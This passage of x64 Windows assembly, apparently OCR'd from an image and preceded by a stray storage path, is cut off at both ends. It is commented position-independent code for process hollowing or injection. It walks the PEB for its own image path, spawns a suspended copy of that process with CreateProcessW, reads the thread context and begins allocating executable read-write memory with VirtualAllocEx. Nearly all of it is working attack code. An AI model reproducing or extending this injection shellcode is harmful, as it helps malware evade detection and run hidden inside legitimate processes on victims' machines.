         mov rax, [rax+0x20]                 ; Store the address of the
                                            ; _RTL_USER_PROCESS_PARAMETERS  
                                            ; structure in RAX 
        mov rax, [rax+0x68]                 ; Store the address of the ImageProcessName
                                            ; value in RAX 
        mov [r13+0x48], rax                 ; Store the address of the process path at R13+0x48 to use later 
        
        ; Create & Initialize structures
        xor rcx, rcx
        mov cl, 0x80
        call create_empty_structure
        
        mov byte[rdi], 0x68                 ; Set STARTUPINFOW.cb = 0x68
        
        ; Create a suspended process
        xor rcx, rcx                        ; prep the stack for x64 fastcall
        mov cl, 0x48                        ; 0x20 shadow space + 6 arguments
        call create_empty_structure
        
        lea rsi, [rdi+0x68]                 ; Load the effective address of the
                                            ; PROCESS_INFORMATION structure into RSI
        mov [rsp+0x48], rsi                 ; Push the pointer to the lpProcessInformation
                                            ; structure
        mov [rsp+0x40], rdi                 ; Push the pointer to the lpStartupInfo
                                            ; structure
        mov [rsp+0x38], rax                 ; lpCurrentDirectory = NULL
        mov [rsp+0x30], rax                 ; lpEnvironment = NULL
        mov byte [rsp+0x28], 0x04           ; dwCreationFlags = CREATE_SUSPENDED
        mov [rsp+0x20], rax                 ; bInheritHandles = FALSE
        mov r9, rax                         ; lpThreadAttributes = NULL
        mov r8, rax                         ; lpProcessAttributes = NULL
        mov rdx, qword [r13+0x48]           ; lpCommandLine = current process
        mov rcx, rax                        ; lpApplicationName = NULL
        call [r13+0x08]                     ; Call CreateProcessW
        add rsp, 0x48                       ; Clean up the stack 0x20 + 0x28 = fastcall + 6
                                            ; arguments
        
        ; Begin GetThreadContext
        xor rcx, rcx                        ; Create CONTEXT object
        mov ecx, 0x04F8                     ; CONTEXT + 0x08 for padding for stack
                                            ; adjustment
        call create_empty_structure
 
        ; Save CONTEXT object & 16-bit align it
        mov r15, rsp
        push 0
        and r15, -16                        ; CONTEXT object should be 16-bit aligned
        mov dword [r15+0x30], 0x010007      ; CONTEXT ContextFlags = CONTEXT_FULL
        
        xor rcx, rcx                        ; prep the stack for x64 fastcall
        mov cl, 0x20                        ; 0x20 shadow space
        call create_empty_structure
        
        mov rdx, r15                        ; lpContext
        mov rcx, qword [rsi+0x08]           ; hThread = PROCESS_INFORMATION.hThread =
                                            ; R13+0x04
        call [r13+0x18]                     ; Call GetThreadContext
        add rsp, 0x20                       ; Clean up stack
 
        ; Begin VirtualAllocEx
        xor rcx, rcx                        ; prep the stack for x64 fastcall
        mov cl, 0x28                        ; 0x20 shadow space + 1 argument
        call create_empty_structure
        
        mov dword [rsp+0x20], 0x40          ; flProtect = PAGE_EXECUTE_READWRITE
        mov r9, 0x1000                      ; flAllocationType = MEM_COMMIT
        mov r8, 0x5000                      ; dwSize = 20kb